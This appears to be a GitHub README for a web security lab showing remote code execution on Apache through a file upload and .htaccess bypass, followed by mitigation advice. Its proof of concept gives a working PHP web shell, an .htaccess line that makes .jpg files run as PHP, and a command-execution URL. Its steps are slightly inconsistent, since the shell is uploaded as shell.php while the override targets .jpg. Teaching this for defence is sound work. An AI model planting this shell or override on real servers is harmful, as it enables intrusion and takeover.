 # 🛡️ File Upload Exploitation – Apache .htaccess Bypass

[![Lab Type](https://img.shields.io/badge/Lab-Web_Exploit-blue)](https://github.com/) 
[![Severity](https://img.shields.io/badge/Severity-High-red)](https://github.com/) 
[![RCE](https://img.shields.io/badge/RCE-Confirmed-brightgreen)](https://github.com/) 
[![PHP](https://img.shields.io/badge/Language-PHP-purple)](https://www.php.net/) 
[![Apache](https://img.shields.io/badge/Server-Apache-orange)](https://httpd.apache.org/) 
[![File Upload](https://img.shields.io/badge/Feature-File_Upload-yellow)](https://github.com/)  

---

## 📑 Table of Contents

1. [Overview](#overview)  
2. [Objective](#objective)  
3. [Vulnerability Description](#vulnerability-description)  
4. [Exploitation Steps](#exploitation-steps)  
5. [Proof of Concept](#proof-of-concept)  
6. [Mitigation](#mitigation)  
7. [References](#references)  

---

## Overview

This lab demonstrates a **file upload vulnerability** in a simulated web application. By exploiting weak validation, we are able to achieve **Remote Code Execution (RCE)** on an Apache server using an `.htaccess` bypass technique.

---

## Objective

- Understand file upload vulnerabilities  
- Learn how `.htaccess` can be abused to execute uploaded files  
- Practice safe exploitation in a controlled environment  

---

## Vulnerability Description

File upload functionality is often a critical entry point for attackers. In this lab:

- The web application **fails to properly validate file types**  
- Apache `.htaccess` files are **not restricted**, allowing uploaded files to execute as PHP scripts  
- This allows attackers to execute arbitrary code on the server  

---

## Exploitation Steps

1. Upload a **malicious PHP file** disguised as an image  
2. Upload an **`.htaccess` file** to bypass content-type restrictions  
3. Access the uploaded PHP file via the browser  
4. Achieve **remote code execution**  

---

## Proof of Concept

```php
<?php
// Simple PHP web shell example
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
````

* Upload the above PHP shell as `shell.php`
* Upload an `.htaccess` with content:

```apache
AddType application/x-httpd-php .jpg
```

* Access `shell.php` via browser and test commands:

```
http://target.com/uploads/shell.php?cmd=whoami
```

---

## Mitigation

* **Validate uploaded files**: restrict by MIME type and file extension
* **Rename uploaded files** and store outside web root
* **Disable `.htaccess` overrides** where not required
* **Use least privilege permissions** for upload directories

---

## References

* [PHP Official Documentation](https://www.php.net/)
* [Apache HTTP Server Documentation](https://httpd.apache.org/)
* [OWASP File Upload Cheat Sheet](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

```

---

